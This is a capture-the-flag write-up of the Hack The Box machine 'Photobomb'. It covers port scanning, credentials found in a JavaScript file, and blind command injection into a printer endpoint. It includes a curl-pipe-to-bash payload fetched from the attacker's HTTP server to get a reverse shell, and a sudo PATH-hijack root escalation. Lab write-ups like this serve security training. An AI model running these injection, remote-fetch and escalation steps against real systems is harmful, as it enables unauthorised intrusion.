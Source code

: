# [Photobomb](https://app.hackthebox.com/machines/photobomb)

```bash
nmap -p- --min-rate 10000 10.10.11.182 -Pn
```

![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan for this open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.182
```

![Alt text](img/image-1.png)



I wrote this ip address into '/etc/hosts' file for resolving.

There's endpoint called '/printer' which asks HTTP authentication.

![Alt text](img/image-2.png)


I just review source code of application and found '**photobomb.js**' script.

I get sensitive credentials from here.

![Alt text](img/image-3.png)

pH0t0:b0Mb!


I will use this credentials for `/printer` endpoint.

![Alt text](img/image-4.png)


Now, I just try to download some image and capture this via `Proxy` to see network traffic.

That's POST request.

![Alt text](img/image-5.png)


Let's try command injection payloads. I type `sleep` cmdlet into here.

![Alt text](img/image-6.png)



It's Blind Command Injection, that's why I gain a webshell by requesting into my http server for reverse shell.

1.For this, I create malicious `.sh` file and serve via httpserver.
```bash
python3 -m http.server --bind 10.10.16.7 8080
```

![Alt text](img/image-7.png)


2.Second, I will `curl` this malicious file and run this via `bash` binary.
```bash
curl+10.10.16.7:8080/dr4ks.sh|bash
```

![Alt text](img/image-8.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-9.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-10.png)


user.txt

![Alt text](img/image-11.png)


For privilege escalation, I just run `sudo -l` command.

![Alt text](img/image-12.png)


I read this file's content and see that `find` binary is used.

![Alt text](img/image-13.png)


Let's create ourselves malicious `find` binary which gives root shell. (`Path Hijack`)

```bash
cd /tmp
echo -e '#!/bin/bash\n\nbash' > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh 
```

![Alt text](img/image-14.png)


root.txt

![Alt text](img/image-15.png)